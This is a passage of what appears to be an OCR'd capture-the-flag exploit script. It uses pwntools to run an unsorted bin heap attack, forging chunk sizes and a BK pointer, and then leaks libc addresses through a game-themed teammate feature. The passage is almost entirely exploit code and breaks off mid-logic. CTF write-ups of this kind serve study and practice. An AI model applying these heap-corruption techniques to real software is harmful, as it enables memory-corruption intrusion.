     processRound()

    # Step 2. -- Unsorted bin attack  
    log.info("starting Unsorted Bin Attack...")
    # Step 2.1.
    payload  = "D"*8*16   
    payload += "D"*8
    payload += p64(0x91)
    payload += "D"*8*16
    payload += p64(0xb00bface) 
    payload += p64(0x101) # flip prev_inuse bit back on to avoid causing double free 
    changeName(payload)   # total payload size = 288 = 0x120
    
    # Step 2.2.
    changeEmail("") # free(B)    
    
    processRound()
    # Step 2.3.
    payload  = "D"*8*16   
    payload += "D"*8
    payload += p64(0x91)
    payload += "D"*8 
    payload += p64(randBytes_addr-0xd) # BK ptr
    payload += "D"*8*14
    payload += p64(0xb00bface)  
    payload += p64(0x101)      
    changeName(payload)  
    # Step 2.4.
    changeEmail("G"*0x80) # realloc out of unsorted bin 
    log.success("Unsorted Bin Attack succeeded!\n\n") 
    
    # Step 3. -- Leak libc
    log.info("starting infoleaks...")
    teammate1 = {}
    teammate2 = {}
    leak   = gatherTeammate("hi").split("\n")
    teammate1["map_x"]  = leak[0].split("play on ")[1]
    teammate1["hero_x"] = leak[1].split(" ")[-1]
    teammate1["addr"] = hi_addr
    log.info("teammate 1 map found: "+teammate1["map_x"])
    log.info("teammate 1 hero found: "+teammate1["hero_x"])

    leak2  = gatherTeammate("lo").split("\n") 
    teammate2["map_x"]  = leak2[0].split("play on ")[1]
    teammate2["hero_x"] = leak2[1].split(" ")[-1]
    teammate2["addr"] = lo_addr
    log.info("teammate 2 map found: "+teammate2["map_x"])
    log.info("teammate 2 hero found: "+teammate2["hero_x"])
     
    for target in [teammate1, teammate2]:
        s.add(target["addr"]-(13*((0x4ec5*target["addr"]) >> 18)) == maps[target["map_x"]])
        if target["hero_x"] in ["D.VA","Orisa","Reinhardt","Roadhog","Winston","Zarya"]:
            s.add(target["addr"] & 3 == 2)
            s.add(target["addr"]-(6*((0xaaab*target["addr"]) >> 18)) == heroes[target["hero_x"]])
        elif target["hero_x"] in ["Genji","Mccree","Pharah","Reaper","76","Sombra","Tracer"]:
            s.add(target["addr"] & 3 == 3)
            s.add(target["addr"] % 7 == heroes[target["hero_x"]])
